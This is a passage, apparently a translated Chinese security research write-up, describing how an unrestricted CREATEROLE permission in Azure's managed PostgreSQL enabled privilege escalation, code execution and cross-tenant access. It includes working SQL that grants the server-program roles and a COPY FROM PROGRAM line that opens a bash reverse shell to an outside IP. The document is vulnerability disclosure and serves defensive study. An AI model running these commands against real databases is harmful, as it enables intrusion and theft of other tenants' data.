 ## 案例研究 2：适用于 PostgreSQL 的 Azure 数据库 - 权限提升和代码执行

与 GCP 一样，Microsoft Azure 对 PostgreSQL 引擎进行了一些修改，以便在云中提供 PostgreSQL 即服务。与 Cloud SQL 一样，这些修改允许用户使用某些超级用户功能，例如创建事件触发器、创建检查点和加载扩展，所有这些功能通常都是为超级用户保留的。

除了这些类似超级用户的功能外，Azure PostgreSQL 还授予用户 `CREATEROLE` 权限。此权限并非 Azure 所独有，其他 PostgreSQL 即服务产品（包括 Cloud SQL）也为用户提供 `CREATEROLE` 权限。但其他产品以某种方式限制角色，以防止其滥用，在 Azure 中，没有这样的限制。

`CREATEROLE` 是一个非常强大的权限。被授予权限 `CREATEROLE` 的用户可以创建新用户并将其与特定角色关联。PostgreSQL 附带了其他强大的内置角色，例如： `pg_read_server_files`、 `pg_write_server_files` 和 `pg_execute_server_program`。作为这些角色的成员，用户可以在文件系统上读/写文件，甚至可以在底层操作系统上执行任意命令。

官方的 PostgreSQL 文档警告说，被授予任意创建角色权限的用户应被视为`几乎超级用户`：

> 小心创建角色权限...如果一个角色没有特定的特权，但被允许创建其他角色，它可以轻松地创建另一个具有与自己的不同特权的角色......因此，将具有 `CREATEROLE` 特权的角色视为几乎超级用户角色。

该 `CREATEROLE` 权限是基本且常用的权限。如果没有此权限，托管的 PostgreSQL 服务是不完整的。由于这种权限非常强大，我们在研究期间评估的几乎所有 CSP 都引入了修改来强化其 PostgreSQL 引擎，并禁用了向普通用户授予强大角色的选项。但是，Azure 没有修改其 `CREATEROLE` 权限，允许创建能够在基础虚拟机上执行任意命令的强大用户。

为了利用这种不安全的行为，我们创建了一个名为`james`的新用户，并将其与我们能想到的所有强大角色相关联：

- pg_read_server_files - 使用户能够从文件系统中任意读取文件
- pg_write_server_files - 使用户能够任意将文件写入文件系统
- pg_execute_server_program - 最强大的角色，赋予用户在操作系统级别执行任意命令的能力

```sql
CREATE USER james CREATEDB IN GROUP
  pg_read_server_files,
  pg_write_server_files,
  pg_execute_server_program ROLE postgres;
```

执行查询后，我们以新创建的用户`james`身份登录，并使用它的权限执行任意命令。例如，我们执行了以下命令，从托管实例的底层虚拟机调用反向 shell：

```sql
SET ROLE "james";
COPY shell_results FROM program '/bin/bash -c "bash -i >& /dev/tcp/13.33.33.7/1337 0>&1"';
```

从基础虚拟机获取反向外壳为我们在 Azure 内部网络中站稳了脚跟：

<div align=center><img width="1000" src="/img/2000000014.png"><br><br>来自 Azure PostgreSQL 灵活实例的反向 shell</div><br>

### Azure 隔离

在托管 PostgreSQL 实例上获得代码执行后，我们利用这一初始立足点来证明对属于其他 Azure PostgreSQL 灵活客户的数据库的未经授权的跨租户访问。


## 根本原因分析

当他们开始提供 PostgreSQL 即服务时，所有 CSP 都有相同的基本需求：克服 PostgreSQL 无法允许用户获得某些超级用户权限而不允许其他所有内容的问题。

因此，所有 CSP 都被迫对 PostgreSQL 项目进行修改，核心问题是向低特权用户引入管理功能是有风险的。

看似微小的修改可以允许用户绕过安全模型并提升其在本地数据库中的权限。

由于 CSP 倾向于引入非常相似的功能，因此我们能够证明相同的漏洞利用代码适用于多个供应商，即使不同 CSP 的实现代码不同。

